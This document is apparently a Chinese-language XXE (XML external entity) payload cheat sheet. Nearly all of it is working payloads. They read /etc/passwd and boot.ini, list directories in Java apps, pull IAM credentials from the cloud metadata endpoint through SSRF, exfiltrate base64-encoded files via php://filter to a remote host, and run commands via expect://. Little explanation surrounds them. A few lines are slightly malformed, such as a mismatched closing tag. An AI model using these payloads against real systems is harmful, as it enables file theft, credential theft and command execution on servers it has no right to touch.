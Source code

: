 # XXE漏洞

检测漏洞

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

当 XML 解析器解析外部实体时，结果应在 firstName 中包含John，在 lastName 中包含Doe

## 读取文件

1.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck3>
```

2.
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

3.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

4.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

SYSTEM 和 PUBLIC 可以互换，例如：
```xml
<!ENTITY % xxe PUBLIC "Random Text" "URL">
<!ENTITY xxe PUBLIC "Any TEXT" "URL">
```

在基于Java的应用程序中，可以通过 XXE列出目录的内容，其有效负载如下:
```xml
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```

## 执行SSRF攻击

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM
 "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

## PHP包装器

### php://filter

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE root [<!ENTITY xxe SYSTEM
"php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE root [<!ENTITY xxe SYSTEM
"php://filter为php://filter/convert.base64-encode/resource=http://远程主机地址">
]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### expect://

```XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY cmd SYSTEM "expect://id">
]>
<root>&cmd;</root>
```
